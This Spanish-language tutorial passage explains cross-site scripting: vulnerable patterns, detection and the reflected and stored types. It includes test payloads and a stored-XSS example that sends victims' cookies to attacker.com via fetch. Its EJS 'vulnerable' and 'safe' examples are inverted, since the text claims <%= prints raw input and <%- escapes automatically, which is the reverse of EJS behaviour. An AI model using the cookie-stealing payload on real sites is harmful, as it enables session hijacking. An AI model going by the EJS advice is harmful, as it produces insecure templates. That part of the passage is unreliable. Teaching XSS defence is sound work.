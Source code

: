 - Concatenación de **entradas del usuario** dentro de HTML.
- Uso directo de `innerHTML`, `document.write()`, `eval()`.
- Variables que vienen de `req.query`, `req.body`, `$_GET`, `$_POST`, etc. sin escape.
- Falta de sanitización en plantillas.

Ejemplo vulnerable (Node.js + Express + EJS):

```ejs
<!-- VULNERABLE: imprime input directamente -->
<p>Hola <%= req.query.name %></p>
```

Ejemplo seguro:

```ejs
<!-- SEGURO: EJS hace escaping automático -->
<p>Hola <%- _.escape(req.query.name) %></p>
```

### 🔍 Cómo detectar vulnerabilidades XSS

1. **Pruebas manuales**: introducir cadenas de prueba como `<script>alert(1)</script>`, `"><img src=x onerror=alert(1)>`.
2. **Herramientas automatizadas**: OWASP ZAP, Burp Suite, Arachni.
3. **Análisis dinámico (DAST)**: ejecutar fuzzing contra la aplicación en un entorno controlado.
4. **Análisis estático (SAST)**: buscar patrones de concatenación de variables en el código.
5. **Explorar vectores poco comunes**: cabeceras HTTP, campos ocultos, valores JSON.

### 📝 Descripción de tipos de ataques XSS

#### 🔹 XSS reflejado

- El payload se envía en una **URL o petición** y se refleja directamente en la respuesta.
- Ejemplo:

```
https://example.com/search?q=<script>alert(1)</script>
```

Si el servidor imprime `q` sin escapar, el script se ejecuta en el navegador de la víctima.

#### 🔹 XSS almacenado

- El payload se **guarda en la base de datos** y se ejecuta cada vez que otro usuario lo ve.
- Ejemplo: un atacante publica un comentario con `<script>fetch('http://attacker.com/cookie?c='+document.cookie)</script>`.
- Cada usuario que vea la página ejecutará ese script.

### ⚡ Ejemplos educativos

#### Ejemplo vulnerable (PHP):

```php
// VULNERABLE
echo "Bienvenido " . $_GET["usuario"];
```
